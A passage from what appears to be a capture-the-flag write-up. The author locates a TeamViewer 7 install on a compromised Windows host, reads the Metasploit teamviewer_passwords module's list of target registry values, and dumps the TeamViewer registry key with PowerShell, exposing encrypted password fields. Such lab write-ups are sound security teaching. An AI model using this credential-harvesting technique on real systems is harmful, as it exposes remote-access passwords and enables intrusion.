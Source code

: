 ```
...[snip]...

```

TeamViewer is a remote management software. Since this is the server, it will have credentials used for others to connect into it.

I can get the version by looking in the `\Program Files (x86)\TeamViewer`:

```

PS C:\Program Files (x86)\TeamViewer> ls

    Directory: C:\Program Files (x86)\TeamViewer

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/27/2020  10:35 AM                Version7 

```

There is a Metasploit module `post/windows/gather/credentials/teamviewer_passwords`. But since I like to avoid Meterpreter to see what’s going on under the hood, I’ll take a look at the [source](https://github.com/rapid7/metasploit-framework/blob/master//modules/post/windows/gather/credentials/teamviewer_passwords.rb). There’s a list of registry keys, and the one that looks like version 7 is `HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7`. For each location, it looks for the following values:
- OptionsPasswordAES
- SecurityPasswordAES
- SecurityPasswordExported
- ServerPasswordAES
- ProxyPasswordAES
- LicenseKeyAES

I can take a look at that registry key:

```

PS C:\> cd HKLM:\software\wow6432node\teamviewer\version7
PS HKLM:\software\wow6432node\teamviewer\version7> get-itemproperty -path .

StartMenuGroup            : TeamViewer 7
InstallationDate          : 2020-02-20
InstallationDirectory     : C:\Program Files (x86)\TeamViewer\Version7
Always_Online             : 1
Security_ActivateDirectIn : 0
Version                   : 7.0.43148
ClientIC                  : 301094961
PK                        : {191, 173, 42, 237...}
SK                        : {248, 35, 152, 56...}
LastMACUsed               : {, 005056B99509}
MIDInitiativeGUID         : {514ed376-a4ee-4507-a28b-484604ed0ba0}
MIDVersion                : 1
ClientID                  : 1769137322
CUse                      : 1
LastUpdateCheck           : 1584564540
UsageEnvironmentBackup    : 1
SecurityPasswordAES       : {255, 155, 28, 115...}
MultiPwdMgmtIDs           : {admin}
MultiPwdMgmtPWDs          : {357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77}
Security_PasswordStrength : 3
PSPath                    : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\software\wow6432node\teamviewer\vers
                            ion7
PSParentPath              : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\software\wow6432node\teamviewer
PSChildName               : version7
```